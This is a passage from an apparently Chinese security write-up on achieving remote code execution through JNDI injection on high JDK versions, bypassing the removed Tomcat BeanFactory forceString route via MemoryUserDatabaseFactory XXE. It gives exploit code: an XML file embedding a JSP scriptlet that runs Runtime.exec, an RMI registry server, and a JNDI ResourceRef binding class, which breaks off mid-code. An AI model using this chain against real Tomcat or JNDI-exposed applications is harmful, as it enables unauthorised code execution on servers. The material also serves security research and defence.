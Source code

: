 查看发现，是 jdk 版本太高的原因导致  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnHj9fapLqgFrfZPKcWjib15E3seX5aScicraujvDSPKLUjN0ib7AsXWv0Q/640?wx_fmt=png&from=appmsg "")  
  
那就顺带做一个绕过  
#### 2. 实现 rce  
  
jdk 版本高用的是 beanfactory  
，第一个想到的是 Tomcat 自带的依赖 org.apache.naming.factory.BeanFactory  
 中的 Reference 的 forceString  
 属性，再配合 ELProcessor  
 就能完成 rce。但当笔者实际实施的时候，发现还是不能成功，经过调试，发现笔者当前的 tomcat 版本好像移除了 forceString  
 属性，查看具体的代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnOHOSyOkEwGYY2chlFibEiaVAtzfr9v4Ywn2qvCufciayrLaCdmf7Kbg5A/640?wx_fmt=png&from=appmsg "")  
  
那还有什么其他的方法吗？浅蓝师傅总结了很多其他的 jndi 注入方法，翻一翻，发现 xxe 到 rce 的一个方法  
  
其中的 org.apache.catalina.users.MemoryUserDatabaseFactory  
 会根据 pathname  
 去发起本地或者远程文件访问，并使用 commons-digester  
 解析返回的 XML 内容，所以这里可以 XXE  
  
具体原理可以查看浅蓝师傅写的文章   
探索高版本 JDK 下 JNDI 漏洞的利用方法  
，这里直接给出做法  
  
首先要准备一个文件 test.jsp  
，文件内容如下  
```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="&#x3c;%Runtime.getRuntime().exec(&#x22;calc&#x22;); %&#x3e;"/>
</tomcat-users>
```  
  
  
然后 rmi 服务  
```
public class RMIServe {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        Person person=new Person();
        Registry registry= LocateRegistry.createRegistry(1099);
        registry.bind("person",person);
    }
}
```  
  
  
jndi 绑定对象  
```
import org.apache.naming.ResourceRef;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.RemoteException;
public class mcms {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext=new InitialContext();
        ResourceRef ref = tomcatWriteFile();
        initialContext.rebind("rmi://localhost:1099/remoteobj",ref);
    }
    private static ResourceRef tomcatWriteFile() {
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
```